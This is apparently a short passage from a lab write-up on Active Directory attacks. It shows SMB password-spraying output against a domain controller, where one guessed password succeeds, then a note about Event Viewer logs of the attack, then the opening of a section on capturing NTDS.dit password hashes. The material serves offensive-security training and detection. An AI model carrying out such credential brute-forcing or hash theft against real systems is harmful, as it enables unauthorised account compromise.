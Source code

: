```bash
SMB         <IP>     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         <IP>     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         <IP>     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         <IP>     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         <IP>     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         <IP>     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         <IP>     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         <IP>     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         <IP>     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```


## Logs from EventViewer of the attack:
![Bruteforceimgsmb](/Images/Eventbruteforcead.png)


# Capturing NTDS.dit
> NTDS.dit file is stored at %systemroot$/ntds on the domain controllers in a forest.

> This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information.
